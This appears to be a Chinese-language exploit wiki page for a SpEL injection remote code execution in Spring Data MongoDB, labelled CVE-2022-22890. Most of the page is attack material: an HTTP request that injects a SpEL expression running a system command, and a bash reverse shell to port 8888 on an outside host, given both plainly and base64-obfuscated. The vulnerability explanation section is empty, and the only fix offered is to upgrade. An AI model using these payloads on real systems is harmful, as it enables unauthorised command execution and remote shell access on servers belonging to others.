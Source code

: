 # SpringDataMongoDBSpEL RCE(CVE-2022-22890)

## 利用条件：
- SpringDataMongoDB 应用程序在使用带有 SpEL 表达式的 @Query 或 @Aggregation-annotated 查询方法且输入未经过过滤。

## 利用方法：
#### POC：
```shell
POST /?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27ping%20a.dnslog.cn%27)
Host: 1.1.1.1
Connection: close
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringDataMongoDBSpEL(CVE-2022-22890)/img/shell.png)
- linux反弹shell POC：
`bash -i >&/dev/tcp/1.1.1.1/8888 0>&1`经过base64变形后进行url编码
```shell
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringDataMongoDBSpEL(CVE-2022-22890)/img/shell.png)

## 漏洞原理：

## 漏洞修复：
1. 使用官方最新发布版本。